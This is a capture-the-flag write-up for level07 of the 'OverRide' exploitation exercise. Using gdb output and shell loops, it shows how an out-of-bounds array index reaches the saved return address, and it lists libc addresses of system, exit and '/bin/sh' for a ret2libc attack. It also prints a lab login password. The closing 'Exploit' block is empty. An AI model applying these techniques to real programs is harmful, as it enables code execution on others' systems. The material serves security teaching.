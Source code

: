 ```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level07
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level07@192.168.56.101's password: GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

The program wipes arguments and environment variables. It creates a static array of 400 bytes fo data of storage. It executes a loop prompting the user to enter the command to execute: `store`, `read` or `quit`.
`store_number()` receives a pointer to `data` array and store a number to the given index. Indexes which are modulo 3 and 183rd index are reserved and cannot be assignable.
`read_number()` receive a pointer to `data` array and read the number stored in the given index.
In case of successful execution of command, `main()` prints corresponding message, as well as for unsuccessful execution.
The last instruction zeroing out memory of `command` and it loop again asking the user a command.

`read_number()` do not check if input index, so it allow to read out of boundaries of `data` array. Over 694rd index, program crash with segfault.
```shell
level07@OverRide:~$ ./payload.py --max 1000 | ./level07
[...]
Input command:  Index:  Number at data[693] is 0
 Completed read command successfully
Input command:  Index:  Number at data[694] is 0
 Completed read command successfully
Input command:  Index: Segmentation fault (core dumped)
```
Saved EIP on `main()` function is `0xf7e45513`. While reading out of boundaries of array saved `EIP` should appear.
```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xf7fceff4 --> 0x1a2d7c
ECX: 0xffffd600 --> 0x0
EDX: 0xffffd600 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x0
ESP: 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:        mov    DWORD PTR [esp],eax)
EIP: 0x80489f1 (<main+718>:     ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80489ee <main+715>:        pop    esi
   0x80489ef <main+716>:        pop    edi
   0x80489f0 <main+717>:        pop    ebp
=> 0x80489f1 <main+718>:        ret
   0x80489f2:   nop
   0x80489f3:   nop
   0x80489f4:   nop
   0x80489f5:   nop
[------------------------------------stack-------------------------------------]
0000| 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0004| 0xffffd6c0 --> 0x1
0008| 0xffffd6c4 --> 0xffffd754 --> 0xffffd88f --> 0x0
0012| 0xffffd6c8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
0016| 0xffffd6cc --> 0xf7fd3000 --> 0xf7e2c000 --> 0x464c457f
0020| 0xffffd6d0 --> 0x0
0024| 0xffffd6d4 --> 0xffffd71c --> 0xf7ffcff4 --> 0x20f1c
0028| 0xffffd6d8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x80489f1 in main; saved eip 0xf7e45513
 called by frame at 0xffffd730
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
gdb-peda$ x/wx 0xffffd6bc
0xffffd6bc:     0xf7e45513
```
Indeed, on reading 1000 bytes, `EIP` it can be seen.
```shell
level07@OverRide:~$ ./payload.py --max 500 | ./level07 | grep -o "Number at data.*$" | cut -d' ' -f5 | sort -hu | sed 's/^/printf "0x%08x" /e' | grep 0xf7e45513
0xf7e45513
level07@OverRide:~$
```
Or without `payload.py`
```shell
level07@OverRide:~$ python -c "print(0xf7e45513)"
4158936339
level07@OverRide:~$ for i in {0..500}; do (echo read; echo $i; echo quit) | ./level07 | if [ $(grep -oE '[0-9]+$') -eq 4158936339 ]; then echo "EIP is on index $i"; fi; done
EIP is on index 114
```

While reading/storing a number from data storage, the index is used to determine the absolute address from where to read/write strating from beggining of `data` array.
```
data[index<<2] = number
```
On writting to index 1 it will write to `data[1 << 2] = number`, same as `data[4] = number` .
On writting to index 114 it will write to `data[114 << 2] = number`, same as `data[456] = number` .

Retrieve `system()`, `exit()` and `"/bin/sh"` addresses.
```gdb
[...]
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$ print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```
Convert them to decimal values.
```gdb
gdb-peda$ p/d 0xf7e6aed0
$3 = 4159090384
gdb-peda$ p/d 0xf7e5eb70
$4 = 4159040368
gdb-peda$ p/d 0xf7f897ec
$5 = 4160264172
```

# Exploit
```shell
```
